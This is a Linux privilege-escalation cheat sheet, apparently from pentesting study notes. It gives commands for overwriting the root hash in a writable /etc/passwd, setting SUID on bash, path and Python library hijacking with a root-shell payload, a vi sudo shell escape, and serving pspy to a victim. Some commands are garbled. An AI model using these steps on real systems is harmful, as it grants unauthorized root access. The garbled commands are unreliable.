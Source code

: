 # (PART) Privilege Escalation {-}

# Linux Machine {-}


To check in which group the user is in the machine:

```bash
id 
```

> [!] NOTE: Checking groups can be interesting because sometimes groups are not related to the machine but related to tools like Docker, lxd or other.

To look at the user privileges use:

```bash
sudo -l
```

Next enumerate SSUID privileges at system level:

```bash
cd /
find \-perm -4000 2>/dev/null
```

## Writable rights in /etc/passwd {-}

Find the tools where the non privileged user have writable rights

```bash
cd /
find \-writable -4000 2>/dev/null | grep "etc"
```

Imagine that /etc/passwd is in the list, that means that u can add a password to root where the first **x** is.

Create a DES(Unix) password

```bash
openssl passwd
#Output
Password:
Verifying - Password:

JIJQueSBU9kBY
```

You can then copy the hash in passwd for the root user

```bash
root:JIJQueSBU9kBY:0:0:root:/root:/usr/bin/zsh
```

## Check crons on machine {-}

```bash
cat /etc/cron
crontab -l
ls /var/spool/cron/
ls /var/spool/cron/ -l
systemctl list-timers
```

## Monitoring processes using bash {-}

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|ps|command"
    old_process=$new_process
done
```

## Monitoring processes using pspy {-}

**pspy** is a utility written in GO that allows attackers to monitorize background processes.

```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" .
upx brute pspy 
```

You can send the pspy compiled file to the victim machnie using `python3 -m http.server` and run it with `.\pspy` after giving pspy execution 
rights.

## Local Port forwarding {-}

```bash
ssh -i id_rsa user@<ip> -L 9000:172.17.0.2:9000
```

- -i for adding ssh id_rsa key
- -L for local port forwarding where 9000 correspond to local attacker port and 172.17.0.2:9000 correspond to the address Attacker want to connect using ssh

## Add SSUID privilege to tool {-}

```bash
ls -l /bin/bash
# output
-rwxr-xr-x  1   root    root    1037528 May 16  2017    bash

#add ssuid rules
chmod u+s /bin/bash
ls -l /bin/bash
#output
-rwsr-xr-x  1   root    root    1037528 May 16  2017    bash

bash -p
# output
bash-4.3# whoami
root
```

## Path Hijacking {-}

**Path Hijacking** take profit of programms that are ssuid and use a command that have a relative path. You can then update the Path variable environment
and point to a malicious software that will be executed as root

## Library Hijacking {-}

**Library Hijacking** follows exactly the same logic as **Path Hijacking** but with programming languages. If we take the example of python.

```python
import sys

print(sys.path)
#Output
['', '/usr/lib/python2.7', ...]
```

As you can see, when we use the keyword import in python, the first place python will check for importing a library is in the current working directory.
That means that taking the same dumby example if you create a malicious file and rename it by sys.py

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

That's it... by calling the previous script you will become root.

## WildCards {-}

```bash
sudo -l

#output
User x may run the following commands on y:
    (user2) NOPASSWD: /usr/bin/vi


sudo -u user2 /usr/bin/vi
# in vim you can now set commands as user2

:set shell=/bin/bash
:shell

whoami
#output
user2
```

## Linux capabilities exploitation {-}

Check in the system if a tool have a special capability that can be used in order to escalate privileges (**cap_setuid+ep**)

```bash
getcap -r / 2>/dev/null
```

## Kernel abuse {-}

first check the kernel version

```bash
uname -a
```
